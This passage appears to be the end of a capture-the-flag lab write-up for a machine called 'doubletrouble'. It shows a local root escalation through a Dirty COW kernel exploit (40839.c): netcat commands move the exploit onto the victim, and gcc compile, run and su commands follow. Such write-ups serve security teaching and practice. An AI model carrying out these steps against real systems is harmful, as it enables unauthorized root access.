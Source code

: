 ![25](/images/writeups/doubletrouble/25.png)

## Privilege escalation to Root

We observe that the machine's version is **vulnerable** to a **Local Privilege Escalation**.

![26](/images/writeups/doubletrouble/26.png)
<h6>Vulnerable kernel version</h6>

![27](/images/writeups/doubletrouble/27.png)

And we download it, following the steps it indicates.

```bash
mv 40839.c dirty.c
```

And now we transfer it to the victim machine using **netcat**.

----
**Victim machine:**

```bash
nc -lvnp 8888 > dirty.c
```

----
**Local machine:**

```bash
nc 192.168.18.193 8888 < dirty.c
```

----

And now we compile it.

```bash
gcc -pthread dirty.c -o dirty -lcrypt
```

So, we run it, providing the password we want. In my case, it will be '**hello**'.

```bash
./dirty my-new-password
```

Then we become the **root** user, now named **firefart**.

```bash
su firefart
```

And we enter the **password** we assigned earlier. 

Now that we have **root** access, we can proceed to obtain the **root flag**.

![28](/images/writeups/doubletrouble/28.png)

Machine completed!